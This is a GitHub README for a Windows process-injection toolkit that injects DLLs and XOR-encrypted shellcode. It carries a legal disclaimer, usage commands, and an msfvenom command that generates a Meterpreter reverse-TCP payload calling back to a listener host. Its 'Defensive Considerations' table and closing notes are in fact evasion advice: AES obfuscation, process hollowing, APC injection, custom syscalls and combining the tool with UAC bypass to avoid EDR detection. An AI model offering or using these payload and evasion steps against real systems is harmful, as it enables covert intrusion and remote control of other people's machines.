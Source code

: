 # Process-Inject 🔧 | Windows Injection Toolkit

Tools for implementing Windows processes, including implementing DLL libraries and implementing XOR-encrypted shellcode. Includes architecture verification and error handling

![GitHub](https://img.shields.io/badge/Language-C++-blue)
![License](https://img.shields.io/badge/License-MIT-green)
![Platform](https://img.shields.io/badge/OS-Windows-lightgrey)

<h2 align="center">⚠️ Legal & Ethical Warning</h2>
<strong>This project is for educational and authorized security research only.</strong> Unauthorized use, including but not limited to attacking systems without explicit owner consent, is strictly prohibited and violates international cybercrime laws

**By using this toolkit, you agree to:**
1. **Legal Compliance**: Use only on systems you own or have written authorization to test
2. **Ethical Responsibility**: Never engage in malicious activities or data destruction
3. **Full Liability**: Assume all legal/financial consequences for misuse


## 🛠️ Core Features

| **Feature**              | **DLL Injector**                        | **Shellcode Injector**                        |
|--------------------------|-----------------------------------------|-----------------------------------------------|
| **Injection Method**     | `CreateRemoteThread` + `LoadLibraryW`   | Direct memory execution + XOR decryption      |
| **Payload Delivery**     | On-disk DLL                             | Fully in-memory                               |
| **Memory Protection**    | `PAGE_READWRITE`                        | `PAGE_EXECUTE_READWRITE` (DEP bypass)         |
| **Architecture Control** | Manual matching required                | Auto-detection via `IsWow64Process`           |
| **Obfuscation**          | None                                    | XOR encryption (key: `0xAA`)                  |
| **Payload Types**        | Standard DLLs                           | Staged/Non-staged (CS/Meterpreter compatible) |
| **Error Reporting**      | Win32 error codes                       | Detailed codes + execution timeout            |
| **Cleanup**              | Full handle/memory release              | Post-execution sanitization                   |
| **Ideal For**            | Game modding, debug hooks               | Red team operations, EDR research             |

## 🎯 Usage Scenarios

### DLL Injection
**Test DLL Creation:**
```cpp
// test_dll.cpp
#include <windows.h>
extern "C" __declspec(dllexport) void EntryPoint() {
    MessageBoxA(0, "Injected!", "Success", MB_OK);
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason, LPVOID lpReserved) {
    if (ul_reason == DLL_PROCESS_ATTACH) EntryPoint();
    return TRUE;
}
```
**Execution:**
```bash
.\dll-injector.exe (Get-Process notepad).Id "C:\test-payload.dll"
```

### Shellcode Injection
**Payload Generation:**
```bash
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=666 -f type
```
**Code Integration:**
```cpp
// shellcode-injector.cpp
unsigned char shellcode[] = {
    ...
};
```
**Execution:**
```bash
shellcode-injector.exe 1472
```
<h1 align="center">
    <a href="https://github.com/Untouchable17/Windows-DLL-Shellcode-Injection-Toolkit">
        <img src="https://i.ibb.co/KkKZVkS/photo-shellcode.jpg" width="700">
    </a>
</h1>


## 🛠️ Compilation Guide

### **DLL Injector**
```bash
# x64
x86_64-w64-mingw32-g++ dll-injector.cpp -o dll-injector.exe -static -lws2_32 -s -Os

# x86
i686-w64-mingw32-g++ dll-injector.cpp -o dll-injector32.exe -static -lws2_32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

### **Shellcode Injector**
```bash
# x64
x86_64-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector.exe -static -lwin32 -s -Os

# x86
i686-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector32.exe -static -lwin32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

## 🛡️ Defensive Considerations
| **Technique**             | **Detection Risk**         | **Mitigation Tips**                                                |
|---------------------------|----------------------------|--------------------------------------------------------------------|
| **Classic DLL Injection** | High                       | Use reflective DLL loading                                         |
| **XOR Encryption**        | Medium                     | Implement AES + runtime key derivation                             |
| **RWX Memory**            | Critical                   | Use NTAPI calls `NtAllocateVirtualMemory` + memory section mapping |
| **Remote Threads**        | High                       | Leverage process hollowing or APC queue injection                  |


### ⚠️ Important Notes
- **EDR Bypass:** This toolkit does not implement advanced evasion techniques. Always:
    - Test in isolated environments
    - Combine with process spoofing/UAC bypass
    - Use custom syscalls instead of WinAPI
- **Shellcode Requirements:**
    - Position-independent (PIC)
    - Null-byte free (if using XOR)
- **Debugging:**
```cpp
#ifdef _DEBUG
printf("[+] Allocated memory at 0x%p\n", remoteBuffer);
#endif
```
